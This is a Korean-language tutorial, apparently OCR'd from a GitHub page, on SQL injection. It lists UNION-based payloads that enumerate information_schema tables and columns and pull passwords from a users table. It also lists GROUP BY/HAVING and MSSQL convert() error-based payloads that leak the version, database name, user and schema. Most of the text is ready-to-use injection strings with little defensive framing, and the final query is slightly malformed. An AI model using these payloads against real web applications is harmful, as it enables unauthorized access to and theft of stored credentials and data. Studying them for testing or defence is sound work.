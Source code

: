 만약 모든 table 명과 column명을 알아보고 싶을땐 아래와같이
?id=1 and 1=0 union select null,table_name,null from information_schema.tables limit 28,1-- -
information_schema를 참조해서 알아 볼수 있다. 
?id=1 and 1=0 union select null,table_name,null from information_schema.tables limit 28,1
?id=1 and 1=0 union select null,column_name,null from information_schema.columns where table_name='찾은 테이블이름' LIMIT 0,1-- -
테이블명과 컬럼명을 찾고난후에는
?id=1 and 1=0 union select null,password,null from users limit 1,1-- -
등과같이 원하는 정보를 뽑아낼 수 있습니다.

# GROUP BY ~ Having 을 사용한 DB 구조 파악

GROUP BY ~ Having 구문 : 출력된 레코드 중 조건에 해당하는 값을 그룹하는 구문
select 필드,집계함수 from 테이블 group by 필드 having 조건

집계함수는 테이블에 없는 필드이기 때문에 기존의 필드와 함께 출력될 수 없다.
그래서 집계함수를 필드와 그룹화하여 출력할 수 있게 해주는 구문이 Groyp by 이다.(Having은 group by의 조건절이다.)
조건 : select에서 선언된 필드는 group by에도 동일하게 선언되어야 한다.
ex) select age,count(age) from member group by age
    select age,count(age) from member group by age having age>27
만약 select와 group by의 필드가 같지 않다면 에러메시지를 출력하는데, 이 메시지로 db 구조로 파악할 수 있다.

?id=1' group by [컬럼1],[컬럼2] having 1=1#

# Convert 함수를 통한 DB 구조 파악
Convert 함수 : 데이터 형변환을 하는 함수
convert(데이터형식, 변환할 데이터, 스타일)
convert(int,'1')

select * from test where convert(int,'1')='1';
select * from test where convert(int,'1')='2';

group by ~ having 공격과 동일하게 오류를 유발하여 오류메시지에 해커가 원하는 정보가 출력되어 DB를 파악하는 공격 방법이다.

기타 정보 확인
1) 버전 정보 파악
select * from test where id='1' and convert(int,@@version)='1'
version정보는 문자라서 int형으로 바꿀 수 없기에 오류메시지가 도출된다.
2) DB 이름 파악
select * from test where id='1' and convert(int,db_name())='1'
3) 사용자계정 파악
select * from test where id='1' and convert(int,user_name())='1'

테이블명 확인
1) information_schema.tables에서 첫번째 테이블명 알아내기
select * from test where id='1' and convert(int,(select top 1 table_name from information_schema.tables))='1'
2) information_schema.tables에서 두번째 테이블명 알아내기
select * from test where id='1' and convert(int,(select top 1 table_name from information_schema.tables where table_name not in ('첫 테이블명')))='1'

필드명 확인
1) information_schema.columns 에서 첫번째 필드명 알아내기
select * from test where id='1' and convert(int,(select top 1 column_name from information_schema.columns))='1'
2) information_schema.columns 에서 두번째 필드명 알아내기
select * from test where id='1' and convert(int,(select top 1 column_name from information_schema.columns not in ('첫 필드명')))='1'
